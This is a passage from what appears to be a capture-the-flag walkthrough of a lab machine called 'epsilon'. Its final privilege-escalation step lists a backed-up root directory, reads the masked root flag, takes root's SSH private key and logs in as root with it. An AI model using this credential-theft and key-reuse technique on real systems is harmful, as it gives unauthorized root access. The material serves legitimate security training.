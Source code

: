 

`checksum` is a directory, not a file. It looks like a home directory:



    tom@epsilon:/dev/shm/opt/backups$ ls checksum/
    docker-compose.yml  lambda.sh  root.txt  src



I can read `root.txt` at this point:



    tom@epsilon:/dev/shm/opt/backups/checksum$ cat root.txt
    05460984************************



I can also grab root's SSH keys:



    tom@epsilon:/dev/shm/opt/backups/checksum/.ssh$ ls -l
    total 12
    -rw------- 1 tom tom  566 Dec  1 13:08 authorized_keys
    -rw------- 1 tom tom 2602 Dec  1 13:07 id_rsa
    -rw-r--r-- 1 tom tom  566 Dec  1 13:07 id_rsa.pub



With that `id_rsa` on my system, I can connect over SSH as root:



    oxdf@hacky$ ssh -i ~/keys/epsilon-root root@10.10.11.134
    Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-97-generic x86_64)
    ...[snip]...
    root@epsilon:~#







